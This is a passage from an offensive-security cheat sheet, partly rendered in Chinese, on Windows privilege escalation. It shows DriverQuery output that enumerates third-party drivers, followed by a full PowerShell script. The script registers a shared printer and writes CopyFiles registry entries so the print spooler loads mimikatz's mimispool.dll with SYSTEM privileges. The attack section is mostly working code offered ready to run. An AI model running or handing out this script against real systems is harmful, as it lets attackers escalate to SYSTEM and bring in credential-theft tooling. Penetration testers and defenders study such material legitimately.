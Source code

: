 * [matterpreter/OffensiveCSharp/DriverQuery](https://github.com/matterpreter/OffensiveCSharp/tree/master/DriverQuery)

  ```powershell
  PS C:\Users\Swissky> DriverQuery.exe --no-msft
  [+] 枚举驱动服务...
  [+] 检查文件签名...
  Citrix USB过滤驱动程序
      服务名称：ctxusbm
      路径：C:\Windows\system32\DRIVERS\ctxusbm.sys
      版本：14.11.0.138
      创建时间（UTC）：2018年5月17日 01:20:50
      证书颁发者：CN=赛门铁克类3 SHA256代码签名CA，OU=赛门铁克信任网络，O=赛门铁克公司，C=US
      签名者：CN="Citrix Systems, Inc."，OU=XenApp(ClientSHA256)，O="Citrix Systems, Inc."，L=劳德代尔堡，S=佛罗里达州，C=US
  <SNIP>
  ```

## EoP - 打印机

### 通用打印机

创建打印机

```ps1
$printerName     = '通用特权打印机'
$system32        = $env:systemroot + '\system32'
$drivers         = $system32 + '\spool\drivers'
$RegStartPrinter = 'Registry::HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Print\Printers\' + $printerName
 
Copy-Item -Force -Path ($system32 + '\mscms.dll')             -Destination ($system32 + '\mimispool.dll')
Copy-Item -Force -Path '.\mimikatz_trunk\x64\mimispool.dll'   -Destination ($drivers  + '\x64\3\mimispool.dll')
Copy-Item -Force -Path '.\mimikatz_trunk\win32\mimispool.dll' -Destination ($drivers  + '\W32X86\3\mimispool.dll')
 
Add-PrinterDriver -Name       '通用 / 纯文本'
Add-Printer       -DriverName '通用 / 纯文本' -Name $printerName -PortName 'FILE:' -Shared
 
New-Item         -Path ($RegStartPrinter + '\CopyFiles')        | Out-Null
New-Item         -Path ($RegStartPrinter + '\CopyFiles\Kiwi')   | Out-Null
New-ItemProperty -Path ($RegStartPrinter + '\CopyFiles\Kiwi')   -Name 'Directory' -PropertyType 'String'      -Value 'x64\3'           | Out-Null
New-ItemProperty -Path ($RegStartPrinter + '\CopyFiles\Kiwi')   -Name 'Files'     -PropertyType 'MultiString' -Value ('mimispool.dll') | Out-Null
New-ItemProperty -Path ($RegStartPrinter + '\CopyFiles\Kiwi')   -Name 'Module'    -PropertyType 'String'      -Value 'mscms.dll'       | Out-Null
New-Item         -Path ($RegStartPrinter + '\CopyFiles\Litchi') | Out-Null
New-ItemProperty -Path ($RegStartPrinter + '\CopyFiles\Litchi') -Name 'Directory' -PropertyType 'String'      -Value 'W32X86\3'        | Out-Null
New-ItemProperty -Path ($RegStartPrinter + '\CopyFiles\Litchi') -Name 'Files'     -PropertyType 'MultiString' -Value ('mimispool.dll') | Out-Null
New-ItemProperty -Path ($RegStartPrinter + '\CopyFiles\Litchi') -Name 'Module'    -PropertyType 'String'      -Value 'mscms.dll'       | Out-Null
New-Item         -Path ($RegStartPrinter + '\CopyFiles\Mango')  | Out-Null
New-ItemProperty -Path ($RegStartPrinter + '\CopyFiles\Mango')  -Name 'Directory' -PropertyType 'String'      -Value $null             | Out-Null
New-ItemProperty -Path ($RegStartPrinter + '\CopyFiles\Mango')  -Name 'Files'     -PropertyType 'MultiString' -Value $null             | Out-Null
New-ItemProperty -Path ($RegStartPrinter + '\CopyFiles\Mango')  -Name 'Module'    -PropertyType 'String'      -Value 'mimispool.dll'   | Out-Null
```
